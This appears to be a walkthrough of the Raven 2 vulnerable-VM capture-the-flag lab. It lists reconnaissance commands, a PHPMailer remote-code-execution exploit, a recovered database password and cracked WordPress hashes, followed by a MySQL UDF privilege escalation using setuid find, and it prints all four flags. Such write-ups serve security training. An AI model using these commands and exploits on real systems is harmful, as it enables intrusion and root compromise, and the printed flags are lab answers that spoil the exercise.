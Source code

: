 # Raven 2 

I do not take any credit for the scripts or codes used, other than my own modifications to make the scripts work for my environment.

#nano /etc/hosts

#Flags 
{
    "flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}"

    "flag2{6a8ed560f0b5358ecf844108048eb337}"

    "flag3{a0f568aa9de277887f37730d71520d9b}"

    "flag4{df2bc5e951d91581467bb9a2a8ff4425}"
};


#netdiscover -r 

#nmap -Pn -sS -A raven.local

#wpscan 
{
    /bin/wpscan --url raven.local/wordpress --force --wp-content-dir wp-content
};

#wget 
{
    http://raven.local/wordpress/wp-content/uploads/2018/11/flag3.png
};

#dirb 
{ 
    http://raven.local
};

#locale 
{
    /wordpress/wp-login.php

    /wordpress/wp-includes/
};

#User(s) Identified 
{
    "michael", "steven"
};

#http://raven.local/vendor/PATH

#/var/www/html/vendor/

{
    "flag1{a2c1f66d2b8051bd3a5874b5b6e43e21"
};

#Modify
{
    PHPMailer < 5.2.18 - Remote Code Execu | exploits/php/webapps/40974.py
};

#define
{
    ('DB_NAME', 'wordpress'); define('DB_USER', 'root'); define('DB_PASSWORD', 'R@v3nSecurity');
};

#python -c "import pty;pty.spawn('/bin/bash');"

#www-data@Raven:/home$ ls -alh

#mysql> 
{
    SELECT user_login, user_pass FROM wp_users;
    SELECT user_login, user_pass FROM wp_users;
    "michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0"
    "steven:$P$B6X3H3ykawf2oHuPsbjQiih5iJXqad."
    "cracked steven ("LOLLOL1")"
};

#john --wordlist=/root/Desktop/SecLists/Passwords/Leaked-Databases/rockyou.txt hash.txt --fork=4

#www-data@Raven:/var/www$ cat flag2.txt 
{
    "flag2{6a8ed560f0b5358ecf844108048eb337}"
};

#www-data@Raven:/var/www/html$

#python -m SimpleHTTPServer 80

#use mysql;

#create table foo(line blob);

#insert into foo values(load_file('/tmp/raptor_udf2.so'));

#select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

#create function do_system returns integer soname 'raptor_udf2.so';

#select * from mysql.func;

#select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');

#select do_system('chmod u+s /usr/bin/find');

#\! sh

#find raptor -exec '/bin/bash' \;

#www-data@Raven:/var/www/html$ 
{
    find raptor -exec '/bin/sh' \;
};

#python -c "import pty;pty.spawn('/bin/sh');"

#cd /root

#ls

#flag4.txt

#cat flag4.txt 
{
                           
    "flag4{df2bc5e951d91581467bb9a2a8ff4425}"

    CONGRATULATIONS on successfully rooting RavenII

    I hope you enjoyed this second interation of the Raven VM
};

## Materials & Resources

1. Instructional Materials: https://github.com/rcantec/raven2-notes.git;
2. Resources; [OVA for Raven 2 VM] https://www.vulnhub.com/entry/raven-2,269/;
3. Rockyou.txt https://github.com/danielmiessler/SecLists
4. PHPMailer Exploit v1.0 https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html
5. local privilege escalation through MySQL; http://www.0xdeadbeef.info/exploits/raptor_udf.c ; https://www.exploit-db.com/exploits/1518

